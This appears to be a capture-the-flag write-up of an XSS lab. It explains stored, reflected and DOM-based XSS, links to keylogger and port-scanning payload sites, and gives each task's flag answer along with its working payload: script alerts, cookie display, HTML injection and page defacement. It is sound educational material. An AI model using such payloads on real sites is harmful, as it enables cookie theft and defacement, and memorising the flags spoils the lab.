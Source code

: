 # Cross-Site Scripting

**Date:** 01, January, 2021

**Author:** Dhilip Sanjay S

---

## XSS
- XSS a type of injection which can allow an attacker to execute malicious scripts and have it execute on a victim’s machine.
- A web app is vulnerable to XSS if it uses unsanitized user input.
- XSS is possible in :
    - Javascript
    - VBscript
    - Flash
    - CSS
- Three types of XSS:
    - **Stored XSS-** Malicious string originates from the website's database. This happens when attacker is able to insert a malicious code into the database.
    - **Reflected XSS-** MAlicious payload is part of victims request to the website. The attacker need to trick a victim into clicking a URL to execute their malicious payload
    - **DOM-based XSS-** DOM (Document Object Model) is a programming interface for HTML and XML document. It can change the document (refers to web page) structure, style and content.

## XSS Payloads
- Popups - `<script>alert(“Hello World”)</script>`
- Writing HTML (defacing the entire page)
- [XSS Key logger](http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 
- [Port Scanning](http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html)
- For more payloads:
    - [XSS Payloads.com](http://www.xss-payloads.com/)

---
## Solutions

### Craft a reflected XSS payload that will cause a popup saying "Hello"
- **Answer:** ThereIsMoreToXSSThanYouThink
- **Steps to Reproduce:** 
    ```js
    <script>alert(Hello)</script>
    ```
---

### On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
- **Answer:** ReflectiveXss4TheWin
- **Steps to Reproduce:** 
    ```js
    <script>alert(window.location.hash)</script>
    ```
---

### "Stored XSS" tab - Add a comment and see if you can insert some of your own HTML.
- **Answer:** HTML_T4gs
- **Steps to Reproduce:** `<h1>Hello</h1>`

---

### On the same page, create an alert popup box appear on the page with your document cookies.
- **Answer:** W3LL_D0N3_LVL2s
- **Steps to Reproduce:** 
    ```js
    <script>alert(document.cookie)</script>
    ```
---

### Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.
- **Answer:** websites_can_be_easily_defaced_with_xss
- **Steps to Reproduce:** 
    ```js
    <script>document.getElementById("thm-title").innerText = "I am a hacker"</script>

    <script>document.querySelector("#thm-title").textContent = 'I am a hacker'</script>
    ```
---